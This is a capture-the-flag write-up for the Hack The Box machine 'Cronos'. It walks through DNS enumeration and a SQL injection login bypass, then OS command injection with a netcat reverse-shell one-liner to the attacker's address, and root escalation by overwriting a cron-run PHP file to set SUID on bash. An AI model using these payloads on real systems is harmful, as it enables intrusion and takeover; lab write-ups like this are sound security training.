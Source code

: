# Cronos

## Basic Information

|          |  |
| :---                 |     :---:      |
| Machine Name         | Cronos     |
| Written by           | Adir Biran       |
| IP Address           | 10.10.10.13       |
| Tools and Techniques | Nmap, Gobuster, nslookup, dig, SQL Injection, Command Injection, Cronjobs       |

## Method
Enumerating the services and virtual hosts for a login page, exploiting it using SQL injection and getting access with OS Command Injection.  
Escalating the privileges by abusing a cron job.  

## Enumeration


#### Nmap
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677718-6b630f54-92d5-4b90-81fb-10b4ee89e47c.png">
</p>

Open Ports:  
22 - SSH  
53 - DNS  
80 - HTTP  

#### Gobuster

Gobuster - Port 80  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677719-8e4f9dfc-7820-45e4-94e6-8c32a582ec1c.png">
</p>

#### Manual Enumeration

The website - Port 80  
<img src="https://user-images.githubusercontent.com/21021400/145677720-3e99be85-6762-4023-b68f-4ea99ef70811.png">
<p align="center">
</p>

Looking for virtual hosts and using the machine itself as the DNS server  
```
nslookup 10.10.10.13 10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677721-c549c411-d118-4ee8-b20f-8e09f00ece02.png">
</p>

Domain found: cronos.htb  

Looking for virtual hosts related to cronos.htb  
```
dig axfr cronos.htb @10.10.10.13
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677722-ed52b9d2-3f44-4209-914e-f554938b985e.png">
</p>

Virtual hosts found:  
cronos.htb  
ns1.cronos.htb  
admin.cronos.htb  

Added them to /etc/hosts  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677724-0e8d0677-de27-431c-b431-a4c2543bc3ef.png">
</p>

cronos.htb  
The main website, nothing useful found.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677725-62437be2-326c-4156-a4f1-056cf65a3d0f.png">
</p>

ns1.cronos.htb  
The same apache server page we reached earlier.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677726-669d2693-4015-4bd3-9fd1-e5db1f99600d.png">
</p>

admin.cronos.htb  
A login page.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677727-1dd27a73-4488-4ab9-84df-3e66d18d86fa.png">
</p>

## Exploitation

Tried admin:admin and few more default credentials - all failed  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677728-c38155e2-6f05-4b32-a689-73826a4275f3.png">
</p>

Source code also didn't provide useful information.  

#### SQL Injection

Tried SQL injection  
```
' or 1==1-- -
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677729-957cac37-65da-4faf-b628-2a22bfa7f000.png">
</p>

And we're in.  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677730-8ba44d89-b9d2-40e3-bc3b-af0c3d40a76e.png">
</p>

Pinged myself and captured the traffic with tcpdump  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677731-a0421405-d315-4c4d-83bb-358db05712b7.png">
</p>

#### OS Command Injection

Tried OS command injection  
```
;whoami
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677732-e56b199b-bef1-426b-8862-a9fbebf28565.png">
</p>

The user running the commands is www-data.  

Let's get a reverse shell  
```
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677733-3136df78-09b4-41a1-838e-d81c4ed01a9f.png">
</p>

## Privilege Escalation (www-data -> root)

Users on the machine:  
www-data  
noulis  
root  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677734-876ef1e6-3b9a-4935-96b1-33269212394d.png">
</p>

www-data's groups  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677735-524fc622-ce17-478c-bc2c-a058ed843151.png">
</p>

SUID files  
```
find / -perm -4000 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677736-dd9b77d6-dd8e-433b-b7cf-5b1bf67f275c.png">
</p>

sudo permissions  
```
sudo -l
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677737-7c8f3876-147c-4fd3-810b-43f038b7a8d6.png">
</p>

Capabilities  
```
getcap -r / 2>/dev/null
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677739-1f478587-07f6-4cef-85a2-c402e4577402.png">
</p>

Checking noulis' home directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677740-55b963a1-2c6f-47e9-8f5d-e721e09f6b2f.png">
</p>

Checking /var/www directory  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677742-542d0ded-42b9-4f1a-bdef-4ee2150eebce.png">
</p>

Laravel is installed in /var/www, checking config files in laravel/.env  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677743-be5d86da-253d-47fb-8d83-36e4dd8a01e7.png">
</p>

So far, all methods tried above failed to escalate the privileges.  

Checking crontab
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677744-5453e29a-9bfa-41d2-a291-59c471a12b35.png">
</p>

There is a cron job running by root every minute.  
executing with php the /var/www/laravel/artisan file.  

Checking the content of the artisan file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677745-a124ded3-b202-4f6b-9522-d1c1bd6384a0.png">
</p>

We can write to that file  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677746-4671096c-0975-4a67-83cf-ea1b57a76929.png">
</p>

Let's replace the content of the file with the following:  
```
<?php
system('chmod +s /bin/bash');
?>
```

By executing the command:  
```
echo "<?php system('chmod +s /bin/bash'); ?>" > artisan
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677747-c67e0899-65b3-4edc-9aa5-1b3c133f36a9.png">
</p>

Once executed by root, a SUID will be added to /bin/bash and we will be able to get a root shell.  

After a minute, checking the /bin/bash permissions:  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677751-26efb128-2f8d-4e92-a4fc-9ff0bc959494.png">
</p>

Executing a root shell  
```
bash -p
```
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677752-17ae7c2b-99f1-43e9-93ec-6ca7e13fbad5.png">
</p>

and we're root.
